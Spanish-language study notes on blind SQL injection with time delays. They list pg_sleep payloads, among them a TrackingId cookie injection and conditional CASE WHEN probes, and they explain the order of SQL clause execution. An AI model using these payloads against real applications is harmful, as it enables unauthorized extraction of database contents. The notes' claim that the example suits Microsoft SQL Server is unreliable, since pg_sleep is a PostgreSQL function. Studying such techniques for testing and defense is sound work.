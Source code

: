 # Blind SQL injection with time delays

Se puede inyectar codigo con delays de tiempo cambia mucho para cada base de datos

> Las técnicas para desencadenar un retraso de tiempo son muy específicas para el tipo de base de datos que se utiliza. En Microsoft SQL Server, una entrada como la siguiente se puede usar para probar una condición y desencadenar un retraso dependiendo de si la expresión es verdadera:


```
TrackingId=x'||pg_sleep(10)--

```


# Blind SQL injection with time delays and information retrieval

Para probar si es vulnerable a este tipo de ataque se pueden utilizar los condicionales

```
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
'SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

# Orden de ejecucion en SQL ( para probar existencia de tablas)

> https://programacion.net/articulo/el_orden_de_ejecucion_de_las_queries_en_sql_1032

El orden en que se ejecuta una sentencia SQL nos puede ayudar a checar si existen usuarios y tablas. La siguiente tabla muentra como se va ejecutando una sentencia SQL la primera intruccion que se ejecuta es el from

## Logical Query Processing Phase

Cuando escribes una serie de comandos dentro de una query sql, estos comandos se dividen mediante una fase de procesamiento lógico. Cada fase genera una serie de tablas virtuales que alimentan a la siguiente fase. Por supuesto, dichas tablas virtuales no son visibles por los administradores. Las fases y su orden de ejecución son las siguiente

```
1. FROM
2. ON
3. OUTER
4. WHERE
5. GROUP BY
6. CUBE | ROLLUP
7. HAVING
8. SELECT
9. DISTINCT
10 ORDER BY
11. TOP
```



